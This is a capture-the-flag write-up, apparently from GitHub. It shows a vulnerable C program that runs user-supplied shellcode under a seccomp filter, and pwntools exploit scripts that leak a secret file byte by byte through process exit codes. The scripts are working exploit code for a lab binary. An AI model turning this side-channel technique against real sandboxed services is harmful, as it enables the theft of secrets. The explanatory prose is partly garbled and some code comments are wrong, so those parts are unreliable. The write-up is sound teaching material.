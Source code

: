 **Title: Exploiting Seccomp-Restricted Program to Leak a Secret**

**Introduction:** The purpose of this write-up is to explain the process of exploiting a seccomp-restricted program to leak a secret. Seccomp is a mechanism in Linux that restricts the system calls a program can make, providing an additional layer of security. The code provided demonstrates the use of seccomp to restrict the program to only two syscalls: `read` and `exit_group`. By leveraging these restrictions and reading one byte at a time, we can gradually leak the secret stored in the program's memory.

**Exploit Strategy:** To exploit the vulnerability, we need to leak the secret byte by byte. Since the program restricts the syscalls to `read` and `exit_group`, we cannot directly leak the secret using the `printf` function or other standard output methods. Instead, we can use the `exit_group` syscall to read the secret directly from memory. By continuously invoking the `exit_group` syscall with a  secret variable  pointer as first argument which  leaked one byte  with exit code that consists of byte in numeric form on every prgram exit , we can gradually leak the secret on .

<img src="https://imgur.com/ecAztLc" alt="img_1">

<img src="https://imgur.com/IEJkw96" alt="img_1">

## Vuln Code
```c

#define _DEFAULT_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <stddef.h>
#include <unistd.h>
#include <sys/prctl.h>
#include <sys/fcntl.h>
#include <linux/seccomp.h>
#include <linux/filter.h>
#include <linux/audit.h>
#include <sys/syscall.h>
#include <sys/mman.h>
#include <string.h>

#define CHECK(B) do { if(!(B)) exit(1); } while(0)

char secret[0x100];
int init_seccomp();

void init() {
    int fd;
    // setting stdout and stdin to be unbuffered
    setvbuf(stdout,0,_IONBF,0);
    setvbuf(stdin,0,_IONBF,0);
    // load the secret
    fd = open("secret.txt", O_RDONLY);
    read(fd, &secret, sizeof(secret));
    close(fd);
}

int main()
{
    char *code;

    init();

    printf("Welcome to \033[1;32mRCEaaS\033[0m\n");
    
    code = mmap(0, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANON, -1, 0);
    read(0, code, 0x1000);

    if (strcmp(secret, code)) {
        CHECK(!fclose(stdout));
        CHECK(!fclose(stderr));
        CHECK(!init_seccomp());
    } else
        printf("You seem trustworthy!\n");


    ((void (*)(void)) code) ();
}

int init_seccomp()
{
#define ALLOW(NR) \
    BPF_JUMP(BPF_JMP + BPF_JEQ + BPF_K, (NR), 0, 1), \
    BPF_STMT(BPF_RET + BPF_K, SECCOMP_RET_ALLOW) \

    struct sock_filter filter[] = {
        BPF_STMT(BPF_LD + BPF_W + BPF_ABS, offsetof(struct seccomp_data, arch)),
        BPF_JUMP(BPF_JMP + BPF_JEQ + BPF_K, AUDIT_ARCH_X86_64, 1, 0),
        BPF_STMT(BPF_RET + BPF_K, SECCOMP_RET_KILL),

        BPF_STMT(BPF_LD + BPF_W + BPF_ABS, offsetof(struct seccomp_data, nr)),
        ALLOW(SYS_read),
        ALLOW(SYS_exit_group),

        BPF_STMT(BPF_RET + BPF_K, SECCOMP_RET_KILL),
    };
#undef ALLOW

    struct sock_fprog prog = {
        .len = sizeof(filter) / sizeof(*filter),
        .filter = filter,
    };

    return prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0) || prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &prog);
}


```


## Exploit

##### First Exploit.py

```python
#!/usr/bin/python3
from pwn import *
import struct

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
break *main

break *main+159
continue
'''.format(**locals())

exe = './vuln'; elf = context.binary = ELF(exe, checksec=False);exe_rop = ROP(elf,checksec=False)

secret = 0x404060



for i in range(256):
	
	try:
		io = start()

		payload = asm(f"""nop
		mov rsi , {secret+i}
		mov rdi, [rsi]
		mov rax,231 /* read syscall number */
		syscall


		""")



		io.sendlineafter(b'Welcome to \033[1;32mRCEaaS\033[0m\n', payload)
		io.recvline()
		print(success())

	except EOFError:
		pass

print(Progress.success())



```

##### Second Exploit.py

```python
#!/usr/bin/python3
from pwn import *

temp_code = [0] * 256
temp_pid= [0] * 256

with open('/tmp/code.txt') as code:
	with open('/tmp/pid_sort.txt') as pid:

		for i in range (256):
			temp_code[i] = code.readline().strip("\n")
			temp_pid[i] = pid.readline().strip("\n")		
		for i in range(256):
			for j in range(256):
				if temp_code[j].split("(pid ")[1].strip(")\n") == temp_pid[i]:
					chr_int = temp_code[j].replace("[*] Process './vuln' stopped with exit code ","").split(" ")[0]
					print(chr(int(chr_int)),end="")

		print("\n")

```

##### Third Exploit.sh

```shell
#!/bin/bash
python3 first.py | tee /tmp/exit_code.txt
cat /tmp/exit_code.txt  |grep "stopped with exit code"  | tee /tmp/code.txt 
cat /tmp/exit_code.txt | grep "exit"  |cut -d "(" -f 2 | sort | cut -d " " -f 2   | cut -d ")" -f 1 | tee /tmp/pid_sort.txt
#clear
echo "Content of Secret.txt"
python3 second.py
rm /tmp/*.txt

```

After Writing this i was known that exit code can be recoded directly Thank @zeeshan.

```python
from pwn import *
context.arch = "amd64"

def gen(i, flag):
    payload = asm(f"""
    mov rsp, {flag+i}
    xor rdi, rdi
    mov dil, byte ptr [rsp]
    {shellcraft.exit_group("rdi")}
    """)
    return payload

char = ""
exit_code = 0

for i in range(256):
    io = process(["./vuln"], close_fds=False)

    io.recvuntil(b'secret ')
    flag = int(io.recvline()[:-1], 16)
    log.info(f"flag is at: {hex(flag)}")

    payload = gen(i, flag)
    io.send(payload)

    exit_code = io.poll(True)
    if exit_code < 20:
        log.info(f"non ascii encountered, exiting...")
        exit(0)
    char += bytes.fromhex(hex(exit_code)[2:]).decode('ASCII')
    info(f"flag is {char}")

    io.close()
```


